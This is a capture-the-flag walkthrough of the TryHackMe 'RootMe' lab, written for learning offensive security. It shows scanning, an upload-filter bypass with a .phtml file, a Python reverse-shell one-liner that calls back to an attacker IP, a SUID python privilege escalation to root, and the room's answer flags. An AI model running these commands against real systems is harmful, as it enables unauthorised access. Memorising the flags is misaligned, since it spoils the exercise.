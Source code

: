 # RootMe

IP: 10.10.195.67

`rustscan --accessible -a $ip -- -sC -sV | tee -a logs/portscan_init.log`

[Rustscan initial run](./logs/portscan_init.log)

***Scan the machine, how many ports are open?*** [`2`]

***What version of Apache is running?*** [`2.4.29`]

***What service is running on port 22?*** [`SSH`]

`nikto -h 10.10.195.67 | tee logs/nikto.log`

[Nikto run](./logs/nikto.log)

`gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x js,jpg,jpeg,txt,html,css,php -u http://10.10.195.67/ | tee logs/gobuster.log`

[Gobuster run](./logs/gobuster.log)

***Find directories on the web server using the GoBuster tool.***

Manually went around and found a `/panel`

***What is the hidden directory?*** [`/panel/`]

The main page has an upload button. We also saw an uploads page from the gobuster scan

Uploading a basic PHP RCE file didn't work. After messing around, it accepted a `.phtml` file, and I was able to get the basic command script in.

```bash
export RHOST="10.6.89.232";export RPORT=4848;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Used a find command to look for the text file, found it and cat it

***Find user.txt*** [`THM{y0u_g0t_a_sh3ll}`]

Searched for SUID bit files using `find / -perm -u=s -type f 2>/dev/null`

Nice, the python binary in `/usr/bin` has a SUID bit set

***Search for files with SUID permission, which file is weird?*** [`/usr/bin/python`]

In the last SUID bit challenge/training, it focused on manipulating a custom script by overwriting `curl` in our own bin folder for it

In this case, python is already made, meaning it can run python scripts as essentially `root`, meaning we can create a script to shell in.

On GTFObins, they make a suggestion to use this, which runs a command to run an [execl](https://docs.python.org/3/library/os.html#os.execl) shell command, which is a script which "replaces" the python process

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Once that was ran, I was the root user

***Find a form to escalate your privileges.***

I cat `/root/root.txt`

***Find root.txt*** [`THM{pr1v1l3g3_3sc4l4t10n}`]
